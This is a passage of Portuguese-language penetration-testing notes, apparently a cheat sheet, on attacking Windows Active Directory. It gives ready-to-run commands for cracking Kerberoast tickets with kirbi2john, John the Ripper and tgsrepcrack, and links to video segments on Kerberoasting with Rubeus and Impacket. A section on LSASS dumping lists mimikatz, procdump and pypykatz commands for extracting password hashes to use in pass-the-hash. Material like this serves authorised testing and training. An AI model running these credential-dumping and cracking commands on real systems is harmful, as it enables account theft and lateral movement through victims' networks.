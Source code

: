 ```
python kirbi2john.py /path/file.kirbi > kirbi.john
john --wordlist=/usr/share/rockyou.txt kirbi.john
```
ou

    python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~dominio.com-dominio.com.kirbi

### Referência em vídeo

![type:video](https://youtube.com/embed/dZKelLeyEzQ)

[Introduçao ao kerberoast](https://www.youtube.com/watch?v=dZKelLeyEzQ&t=0s)  
[Configuração do ambiente](https://www.youtube.com/watch?v=dZKelLeyEzQ&t=55s)  
[Kerberoasting com Rubeus no Windows](https://www.youtube.com/watch?v=dZKelLeyEzQ&t=82s)  
[Encaminhamento de porta para chegar no Domain Controller pelo Kali Linux (port forwarding)](https://www.youtube.com/watch?v=dZKelLeyEzQ&t=260s)  
[Kerberoasting com Impacket no Kali Linux](https://www.youtube.com/watch?v=dZKelLeyEzQ&t=500s)  

## lsass dump

Esse ponto é importante, porque nos dará condições de fazer o ataque de pass-the-hash! O objetivo aqui é obter os hashes de senha dos usuários e informar esses hashes por meio dos comandos para conseguir se autenticar com um determinado procotolo, por exemplo. As possibilidades de extração de hashes são os seguintes...

mimikatz

    privilege::debug
    sekurlsa::logonPasswords
    lsadump::lsa /patch

procdump

    get-process lsass
    .\procdump -accepteula -ma 572 out.dmp
    #ou
    .\pd.exe -accepteula -ma lsass.exe lsass_dump
    #Then parse it with mimikatz
    mimikatz.exe
    sekurlsa::minidump out.dmp
    sekurlsa::logonpasswords
    #remotelly
    pypykatz lsa minidump lsass_dump.dmp

TaskManager

![](../../../media/Pasted%20image%2020240531230707.png)

![../media](Pasted%20image%2020240531230254.png)

![[Pasted image 20240531230040.png]]
